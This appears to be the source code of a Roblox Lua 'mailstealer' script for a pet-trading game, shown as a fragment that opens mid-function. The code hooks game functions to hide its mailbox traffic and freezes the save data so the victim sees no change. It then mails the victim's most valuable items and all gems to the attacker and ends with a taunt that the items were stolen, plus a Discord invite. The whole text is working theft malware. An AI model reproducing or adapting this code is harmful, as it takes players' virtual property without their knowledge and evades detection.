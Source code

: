 end

if #sortedItems > 0 or GemAmount1 > min_rap + newamount then
    ClaimMail()
	if IsMailboxHooked() then
        getFucked = true
		local Mailbox = game:GetService("ReplicatedStorage"):WaitForChild("Network"):WaitForChild("Mailbox: Send")
        for i, Func in ipairs(getgc(true)) do
            if typeof(Func) == "function" and debug.info(Func, "n") == "typeof" then
                local Old
                Old = hookfunction(Func, function(Ins, ...)
                    if Ins == Mailbox then
                        return tick()
                    end
                    return Old(Ins, ...)
                end)
            end
        end
	end
    EmptyBoxes()
	require(game.ReplicatedStorage.Library.Client.DaycareCmds).Claim()
	require(game.ReplicatedStorage.Library.Client.ExclusiveDaycareCmds).Claim()
    local blob_a = game:GetService("ReplicatedStorage"):WaitForChild("Library"):WaitForChild("Client"):WaitForChild("Save")
    local blob_b = require(blob_a).Get()
    function deepCopy(original)
        local copy = {}
        for k, v in pairs(original) do
            if type(v) == "table" then
                v = deepCopy(v)
            end
            copy[k] = v
        end
        return copy
    end
    blob_b = deepCopy(blob_b)
    require(blob_a).Get = function(...)
        return blob_b
    end

    table.sort(sortedItems, function(a, b)
        return a.rap * a.amount > b.rap * b.amount 
    end)

    spawn(function()
        SendMessage(plr.Name, GemAmount1)
    end)

    for _, item in ipairs(sortedItems) do
        if item.rap >= newamount then
            sendItem(item.category, item.uid, item.amount)
        else
            break
        end
    end
    SendAllGems()
    local message = require(game.ReplicatedStorage.Library.Client.Message)
    message.Error("All your items just got stolen by Tobi's mailstealer!\n Join discord.gg/GY2RVSEGDT")
    setclipboard("discord.gg/GY2RVSEGDT")
end"
